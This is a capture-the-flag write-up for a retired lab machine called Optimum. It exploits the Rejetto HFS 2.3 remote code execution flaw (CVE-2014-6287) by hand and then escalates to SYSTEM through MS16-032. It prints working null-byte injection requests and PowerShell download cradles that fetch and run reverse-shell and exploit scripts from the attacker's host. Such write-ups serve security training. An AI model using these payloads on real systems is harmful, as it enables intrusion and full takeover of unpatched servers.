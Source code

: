 # Optimum

This is the write-up for the box Optimum that got retired at the 28th October 2017.
My IP address was 10.10.14.23 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.8    optimum.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/optimum.nmap 10.10.10.8
```

```markdown
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Checking HTTP (Port 80)

On the web page there is an application called **HttpFileServer 2.3**.

![HttpFileServer](optimum-hfs.png)

Looking for exploits for this service we find **Rejetto HTTP File Server 2.3.x - Remote Code Execution** with the CVE number [CVE-2014-6287](https://nvd.nist.gov/vuln/detail/CVE-2014-6287).

The description is as follows:
> The findMacroMarker function in parserLib.pas in Rejetto HTTP File Server (aks HFS or HttpFileServer) 2.3x before 2.3c allows remote attackers to execute arbitrary programs via a %00 sequence in a search action.

Instead of using the Metasploit Module, I will exploit this vulnerability manually.

### Explaining and using the exploit

The HFS application has an internal scripting language that uses some characters like curly brackets, pipe symbols and dots. It has a regular expression that searches and replaces these characters in the Search parameter.
When sending a _NULL Byte_ in the Search query, this will terminate the regular expression but everything after the NULL Byte will not be replaced.

Before doing this, we need to know which characters to send. This can be found out by reading the [Rejetto wiki](https://rejetto.com/wiki/index.php?title=HFS:_scripting_commands). The parameter **exec** is what we need to send to execute commands.
```markdown
Example: {.exec|notepad.}
```

Lets send a request with **%00** in the search bar, to _Burpsuite_ and modify the requests in the **Repeater**.
For testing we can send a simple `ping` command to verify that it works the correct way:
```markdown
GET /?search=%00{.exec|ping 10.10.14.23.} HTTP/1.1
```

The `tcpdump` on my local machine waits for connections and after sending this request it outputs the ICMP packets. This means successful command execution and we can start a reverse shell on this box.

For this task I will use the Powershell script **Invoke-PowerShellTcp.ps1** from the **Nishang Framework** that will listen on my IP and port 9001.
```markdown
GET /?search=%00{.exec|C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.14.23:8000/Invoke-PowerShellTcp.ps1').} HTTP/1.1

# URL-encoded
GET /?search=%00{.exec|C%3a\Windows\SysNative\WindowsPowerShell\v1.0\powershell.exe+IEX(New-Object+Net.WebClient).downloadString('http%3a//10.10.14.23%3a8000/shell.ps1').} HTTP/1.1
```

After executing this the listener will start a reverse shell and we are the user _kostas_ on the box.

## Privilege Escalation

Searching for vulnerabilities now by using **Sherlock.ps1** with the _Find-AllVulns function_ to get information about hotfixes.
 ```markdown
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.23:8000/Sherlock.ps1')
```

It appears to be vulnerable against **MS016-032 - Secondary Logon Handle** which can be exploited with the script _Invoke-MS16032.ps1_.
```markdown
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.23:8000/Invoke-MS16032.ps1')
```

This script will download another **Invoke-PowerShellTcp.ps1** that listens on port 9002 to start a new reverse shell but with elevated privileges.
After the files get downloaded and executed our listener starts and we are _NT Authority\SYSTEM_ on the box!
